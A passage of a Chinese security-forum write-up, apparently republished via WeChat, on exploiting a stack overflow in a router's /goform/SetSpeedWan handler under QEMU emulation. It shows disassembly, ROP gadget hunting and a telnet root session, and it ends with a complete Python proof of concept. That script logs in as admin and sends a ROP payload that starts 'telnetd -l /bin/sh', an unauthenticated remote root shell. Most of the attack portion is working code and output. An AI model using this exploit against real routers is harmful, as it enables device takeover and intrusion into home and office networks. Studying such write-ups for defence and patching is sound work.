; int __fastcall system(int)WEAK systemsystemvar_30= -0x30var_24= -0x24var_20= -0x20var_1C= -0x1Cvar_18= -0x18var_14= -0x14var_C= -0xCLDR             R3, =(_GLOBAL_OFFSET_TABLE_ - 0x40A4528C) ; Alternative name is '__libc_system'CMP             R0, #0PUSH            {R4,LR}SUB             SP, SP, #0x28.........ADD             SP, SP, #0x28 ; '('POP             {R4,PC}
```  
  
  
  
system 运行结束后 ，弹出到 PC 寄存器的是 LR 的值 ，如果不控制 LR 的值程序就会崩溃，现在需要找一个 BL system 的指令来自动设置 LR 的值。  
  
  
libcommon.so 中的 doSystemCmd 函数正好符合， 然后 flush_dns_cache 的调用 doSystemCmd 代码如下：  
  
```
.text:00009A4C                 MOV             R0, R3.text:00009A50                 BL              j_doSystemCmd.text:00009A54                 POP             {R3,R4,R11,PC}
```  
  
  
  
这段代码非常符合参数的设置，首先设置 R3 的地址指向需要执行的命令 telnetd -l /bin/sh  
  
  
让弹出到 PC 寄存器的地址指向 libc.so.0 的 _exit 函数  
  
  
使用 ROPgadget 查找设置 R3 值的指令：  
  
```
ROPgadget --binary ./lib/libcommon.so --only "pop"Gadgets information============================================================0x00003e58 :pop {fp, pc}0x00015be4 :pop {r1, pc}0x00009a54 :pop {r3, r4, fp, pc}0x00015c20 :pop {r3, r4, r5, r6, r7, pc}0x00003454 :pop {r4, fp, pc}0x00003350 :pop {r4, pc}0x00004570 :pop {r4, r5, fp, pc}0x00006cf8 :pop {r4, r5, r6, fp, pc}0x000160c0 :pop {r4, r5, r6, r7, r8, sb, sl, fp, pc}0x0000ab98 :pop {r4, r5, r6, r7, r8, sl, fp, pc}Unique gadgets found:10
```  
  
  
  
选取 0x00015c20 作为设置 R3 值的指令  
  
  
结合 vmmap 和 info sharedlibrary 计算 libcommon.so 的基址为 0x40854000 ， libc.so.0 的基址为 0x409EB000  
  
  
  
  
  
栈的数据结构如下：  
  
  
  
  
  
开启 telnetd 服务还需要挂载 devpts ， 不然程序会提示 telnetd: can't find free pty  
  
```
sudo mount -o bind /dev ./dev/sudo mount -t devpts devpts ./dev/pts
```  
  
  
  
运行 POC 后查看运行的进程信息：  
  
```
ps -aux | grep telnetdroot        5799  0.0  0.0 4404548 5872 ?        Ssl  00:51   0:00 /usr/libexec/qemu-binfmt/arm-binfmt-P /usr/sbin/telnetd telnetd -l /bin/sh
```  
  
  
  
telnet 192.168.3.3 进行测试：  
  
```
telnet 192.168.3.3Trying 192.168.3.3...Connected to 192.168.3.3.Escape character is '^]'.~ # ls -latotal 64drwxr-xr-x   15 1000     1000          4096 Jan  2 16:45 .drwxr-xr-x   15 1000     1000          4096 Jan  2 16:45 ..-rw-------    1 1000     1000          2819 Jan  2 16:45 .gdb_historydrwxr-xr-x    2 1000     1000          4096 Dec 26 14:28 bindrwxr-xr-x    2 1000     1000          4096 Dec 26 06:48 cfgdrwxr-xr-x   15 root     root          3860 Jan  1 15:29 devlrwxrwxrwx    1 1000     1000             8 Dec 26 06:48 etc -> /var/etcdrwxr-xr-x    8 1000     1000          4096 Dec 26 06:48 etc_ro-rw-r--r--    1 1000     1000           154 Jan  1 15:34 gdb.txtlrwxrwxrwx    1 1000     1000             9 Dec 26 06:48 home -> /var/homelrwxrwxrwx    1 1000     1000            11 Dec 26 06:48 init -> bin/busyboxdrwxr-xr-x    3 1000     1000          4096 Dec 26 06:48 libdrwxr-xr-x    2 1000     1000          4096 Dec 26 06:48 mntdrwxr-xr-x    3 1000     1000          4096 Dec 26 06:48 proclrwxrwxrwx    1 1000     1000             9 Dec 26 06:48 root -> /var/rootdrwxr-xr-x    2 1000     1000          4096 Dec 26 06:48 sbindrwxr-xr-x    2 1000     1000          4096 Dec 26 06:48 sysdrwxr-xr-x    2 1000     1000          4096 Dec 30 06:27 tmpdrwxr-xr-x    6 1000     1000          4096 Dec 26 06:48 usrdrwxr-xr-x    8 1000     1000          4096 Jan  2 16:45 varlrwxrwxrwx    1 1000     1000            11 Dec 26 06:48 webroot -> var/webrootdrwxr-xr-x    8 1000     1000          4096 Dec 26 06:48 webroot_ro
```  
  
  
  
POC 代码如下：  
  
```
import requestsfrom pwn import *def execute_overflow(session, url):# Prepare malicious request parameters    telnet = b'aaatelnetd -l /bin/sh|aagaaahaaaiaa'    pop_r3 = 0x40869C20    args = 0x407ffa14    doSystemCmd = 0x4085DA4C    exit = 0x40A00904    end = 0x00000000    speed_dir = telnet + p32(pop_r3) + p32(args) * 5  + p32(doSystemCmd) + p32(args) * 3 + p32(exit) + p32(end)    attack_params = {# "speed_dir": cyclic(0xFF)"speed_dir": speed_dir     }# Send the malicious request twice (as in original)    server_response = session.get(url, params=attack_params)  # Display server responseprint("HTTP Status:", server_response.status_code)print("Response Content:", server_response.text)def execute_login(session, login_url, username, password):    data = {"username": username,"password": password    }    server_response = session.post(login_url, data=data)# Display server responseprint("HTTP Status:", server_response.status_code)# print("Response Content:", server_response.text)print("Response Cookies:", session.cookies.get('password'))if __name__ == "__main__":    session = requests.Session()    login_url = "http://192.168.3.3/login/Auth"    username = "admin"    password = "4fc0296a51e6d90c794c91951886dc2b"    execute_login(session, login_url, username, password)# Target endpoint    target_url = "http://192.168.3.3/goform/SetSpeedWan"# Execute the attack    execute_overflow(session, target_url)
```  
  
  
****  
****##   
  
  
  
  
看雪ID：  
易之生生  
  
https://bbs.kanxue.com/user-home-920134.htm  
  
*本文为看雪论坛精华文章，由   
易之生生  
   
原创，转载请注明来自看雪社区  
  
[](https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458605280&idx=3&sn=b862b079ee38c0e9607690b0574930dc&scene=21#wechat_redirect)  
  
  
# 往期推荐  
  
[从ANGR-CTF项目入手ANGR和符号执行技术](https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458604798&idx=1&sn=463308cb532244fc5466996f77e343dd&scene=21#wechat_redirect)  
  
  
[AI时代-逆向工作者该如何用好这一利器](https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458604797&idx=2&sn=85eaa93178248cbaecf8d805c444b6fa&scene=21#wechat_redirect)  
  
  
[EXIF解析缓冲区溢出漏洞分析与利用](https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458604770&idx=1&sn=174d05be91d4dac9e2bfe20e7d389e50&scene=21#wechat_redirect)  
  
  
[从C到Pwn：栈溢出漏洞利用实战入门](https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458604701&idx=2&sn=88b548d360e026b8d2ebc11d66d54240&scene=21#wechat_redirect)  
  
  
[Android-ARM64的VMP分析和还原](https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458604640&idx=1&sn=0670c0f5e68f62656d15ffffb6bb7f67&scene=21#wechat_redirect)  
  
  
  
  
  
  
  
**球分享**  
  
  
  
**球点赞**  
  
  
  
**球在看**  
  
  
  
  
点击阅读原文查看更多  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
